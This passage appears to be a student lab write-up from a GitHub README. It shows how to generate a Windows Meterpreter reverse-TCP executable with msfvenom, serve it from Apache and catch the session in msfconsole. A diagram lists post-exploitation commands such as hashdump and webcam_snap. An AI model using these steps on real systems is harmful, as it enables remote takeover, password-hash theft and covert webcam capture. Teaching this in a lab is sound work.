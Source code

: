         |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+


### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="732" height="498" alt="image" src="https://github.com/user-attachments/assets/f0b21e63-c196-4f8c-9cf4-c57bf565aa07" />


Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > nikhil.exe

### Output:

<img width="917" height="244" alt="image" src="https://github.com/user-attachments/assets/e0c1c121-7bf8-4db7-9636-c464a5893f83" />



copy the nikhil.exe into the apache /var/www/html folder

<img width="409" height="122" alt="image" src="https://github.com/user-attachments/assets/bf91f50e-ed72-49ce-91b6-68b8f9751ae4" />
<img width="311" height="65" alt="image" src="https://github.com/user-attachments/assets/b72bc5ed-aefc-4229-be0e-8990f59cb038" />



Start apache server sudo systemctl apache2 start 
Check the status of apache2 sudo apache2 status

<img width="809" height="385" alt="Screenshot 2025-09-29 083722" src="https://github.com/user-attachments/assets/b193bd17-d388-4ea2-885d-1338913f62b7" />



Invoke msfconsole:

<img width="642" height="648" alt="image" src="https://github.com/user-attachments/assets/24e92ff8-eda2-412d-a045-365ee9e44697" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="754" height="497" alt="image" src="https://github.com/user-attachments/assets/72c1356d-0d76-4d8d-9517-313e78b7f361" />

